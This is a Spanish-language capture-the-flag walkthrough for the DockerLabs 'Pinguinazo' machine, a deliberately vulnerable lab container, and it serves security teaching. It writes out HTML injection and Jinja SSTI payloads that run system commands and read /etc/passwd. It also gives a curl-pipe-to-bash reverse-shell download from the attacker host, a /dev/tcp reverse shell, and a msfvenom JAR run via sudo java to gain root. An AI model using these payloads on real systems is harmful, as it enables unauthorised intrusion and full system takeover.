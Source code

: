 # Máuquina pinguinazo

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/xeNVTA5B#RXNj1lKF2Gab1HwAWE1SdMtb8CFPJh4le7jsSWjZ7qc)

![imagen](https://github.com/user-attachments/assets/f59831aa-e3cb-4b74-b7c6-8db50066bf78)


- **Nombre de la Máquina:** Pinguinazo
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **HTML Injection:** Permite ejecutar código HTML malicioso en la página web de Pinguinazo.
  - **Server-Side Template Injection (SSTI):** Aprovechada para ejecutar comandos en el servidor mediante plantillas mal configuradas.
- **Escalada de Privilegios:**
  - Aprovechamiento de `sudo java` para ejecutar código como root sin autenticación, utilizando un archivo JAR malicioso generado con `msfvenom`.

 
Aquí tienes el texto reescrito con otras palabras:

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/e686028a-5f9b-414e-846b-dc082e9cdc1a)

Nos muestra que el puerto 5000 está abierto. Realizamos un análisis más detallado para determinar qué servicio está ejecutándose en ese puerto.

```bash
sudo nmap -p 5000 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/7537dd41-333f-4089-b7a3-09d00afe69be)

- Puerto 5000: servicio upnp?

El primer paso es examinar los vectores de entrada disponibles en el puerto 5000. Descubrimos que es una plantilla generada con Jinja.

![imagen](https://github.com/user-attachments/assets/d3fb3e36-a6f4-4e43-81c1-09dd68106ff4)

Continuamos con el análisis y descubrimos una página web con un formulario sencillo que solicita cierta información. Vamos a verificar si es vulnerable a la inyección de HTML. Escribimos el siguiente código en el campo PinguNombre:

```html
<marquee>Pwned</marquee>
```

Y comprobamos que es vulnerable.

![imagen](https://github.com/user-attachments/assets/6112910f-5514-4e04-b74b-7fada8b19fe2)

Intentamos hacer un SSTI (Server Side Template Injection)
`{{5*5}}`

![imagen](https://github.com/user-attachments/assets/24f0e930-aabd-4372-9f65-d6d64b5a67b1)

Y vemos que es vulnerable a este ataque.

Ahora es momento de ejecutar comandos de Linux a través de la vulnerabilidad detectada. Al navegar por Internet, encontramos varias páginas que nos ofrecen payloads y comandos ya listos para usar.

En esta página [web](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) encontramos varios payloads útiles.

Vamos a ejecutar uno para determinar qué usuario somos:

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![imagen](https://github.com/user-attachments/assets/45211a9d-b405-4d3d-95c8-587ec6ab50e8)

Ejecutando el comando `id` vemos que pertenecemos al grupo pinguinazo.

También podremos leer el `/etc/passwd`.

```html
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

![imagen](https://github.com/user-attachments/assets/c3ff9fb7-be24-4d92-991b-e1aabba1438c)

Ahora que podemos ejecutar comandos a nivel de sistema, es momento de establecer una reverse shell para obtener acceso completo al servidor.

Primero, abrimos un puerto en nc en modo de escucha con el siguiente comando en nuestra máquina atacante:

```bash
nc -nlvp 443
```

![imagen](https://github.com/user-attachments/assets/f76d4ab8-a266-412a-a3c5-9ff990d8beaf)

Estamos tratando de obtener acceso completo al servidor a través de una reverse shell. Sin embargo, debido a las restricciones de la plantilla Jinja, no podemos ejecutar directamente una reverse shell con el comando típico. Por lo tanto, creamos un script bash en nuestra máquina atacante y lo servimos a través de HTTP para que el servidor vulnerable lo descargue y ejecute.

### Pasos detallados:

1. **Creación del script de reverse shell:**
   Creamos un script básico en bash con el siguiente contenido:
   
   ```bash
   bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'
   ```
   Guardamos este script como `reverse_shell.sh`.

   ![imagen](https://github.com/user-attachments/assets/e88e1aa5-545e-4ed6-ac51-0deedd11c2de)

2. **Servidor HTTP:**
   Usamos Python para abrir un servidor HTTP en el puerto 80 y poder compartir el script. Esto se hace ejecutando el siguiente comando en nuestra máquina atacante:
   
   ```bash
   python3 -m http.server 80
   ```

3. **Descargar y ejecutar el script desde el servidor vulnerable:**
   Utilizamos el siguiente comando en la web vulnerable para descargar y ejecutar nuestro script de reverse shell:

   ```html
   {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://172.17.0.1/reverse_shell.sh | bash').read() }}
   ```

### Explicación de los pasos:

1. **Script de reverse shell:**
   - El script bash contiene el comando necesario para abrir una reverse shell y conectar de vuelta a nuestra máquina atacante en el puerto 443. 
   - Esto nos permite ejecutar comandos en el servidor víctima desde nuestra máquina.

2. **Servidor HTTP con Python:**
   - Servimos el script a través de HTTP utilizando el módulo `http.server` de Python. Esto es conveniente porque casi todas las distribuciones de Linux tienen Python preinstalado, y es fácil de usar.
   - El servidor HTTP permite que el servidor vulnerable descargue nuestro script cuando solicitamos la URL `http://172.17.0.1/reverse_shell.sh`.

3. **Descarga y ejecución del script:**
   - En lugar de intentar ejecutar directamente una reverse shell (lo cual podría ser bloqueado o restringido por la configuración del servidor), descargamos el script desde nuestra máquina atacante y lo ejecutamos.
   - Esto nos da una forma de superar las restricciones de la plantilla Jinja y obtener acceso completo al servidor.

Siguiendo estos pasos, logramos establecer una conexión de reverse shell y obtener control sobre el servidor objetivo, eludiendo las restricciones iniciales impuestas por el entorno de la plantilla Jinja.

![imagen](https://github.com/user-attachments/assets/65206fa1-5c61-438e-9ef8-aa6f884352aa)

## Escalada de privilegios
Para realizar la escalada de privilegios en el servidor comprometido, aprovechamos los permisos de ejecución del comando `java` como usuario root sin requerir contraseña.

### Paso a paso para la escalada de privilegios:

1. **Verificación de permisos:**
   Al ejecutar `sudo -l`, confirmamos que tenemos la capacidad de ejecutar `java` como root sin necesidad de ingresar contraseña.

   ![imagen](https://github.com/user-attachments/assets/19cbc6a4-8ea7-4397-ba2b-6ff652a631df)

2. **Investigación y preparación:**
   Investigamos en una fuente confiable [web](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-java-privilege-escalation/) que detalla cómo podemos escalar privilegios usando `sudo java`.

3. **Creación del archivo JAR malicioso:**
   Utilizamos `msfvenom` para generar un archivo JAR que contenga un payload de reverse shell. Esto se logra con el siguiente comando:
   ```bash
   msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f jar -o shell.jar
   ```

4. **Configuración de la reverse shell:**
   Configuramos nuestra máquina atacante para escuchar conexiones entrantes en el puerto 4444:
   ```bash
   nc -nlvp 4444
   ```

5. **Servir el archivo JAR a través de HTTP:**
   Iniciamos un servidor HTTP en nuestra máquina atacante para que el servidor vulnerable pueda descargar el archivo JAR:
   ```bash
   python3 -m http.server 81
   ```
   En la máquina víctima, descargamos el archivo JAR utilizando `curl`:
   ```bash
   curl http://172.17.0.1/shell.jar -o shell.jar
   ```

6. **Ejecución del exploit:**
   Finalmente, ejecutamos el comando `java` con privilegios de sudo para ejecutar el archivo JAR malicioso desde la ubicación temporal:
   ```bash
   sudo /usr/bin/java -jar /tmp/shell.jar
   ```

7. **Obtención de acceso root:**
   Con el comando anterior, logramos establecer una conexión de reverse shell como usuario **root** en nuestra máquina atacante, que está a la escucha en el puerto 4444.

   ![imagen](https://github.com/user-attachments/assets/79a596bb-58a0-4b45-b219-dbaa9977e2a1)

### Explicación:
- **Paso 1:** Verificamos los permisos de sudo para `java` que nos permiten ejecutar comandos como root.
- **Paso 2:** Investigamos y preparamos el exploit siguiendo las instrucciones de una fuente confiable.
- **Paso 3 y 4:** Creamos un archivo JAR malicioso con un payload de reverse shell y configuramos nuestra máquina para recibir la conexión entrante.
- **Paso 5:** Utilizamos un servidor HTTP para servir el archivo JAR malicioso al servidor vulnerable.
- **Paso 6:** Ejecutamos el comando `java` con sudo para iniciar la reverse shell desde el archivo JAR.
- **Paso 7:** Confirmamos que la escalada de privilegios fue exitosa al recibir una shell como root en nuestra máquina atacante.

Siguiendo estos pasos detallados, conseguimos obtener acceso root en el servidor mediante una escalada de privilegios utilizando `sudo java`. Este método nos permitió sortear las restricciones de seguridad y obtener el control completo del sistema comprometido.
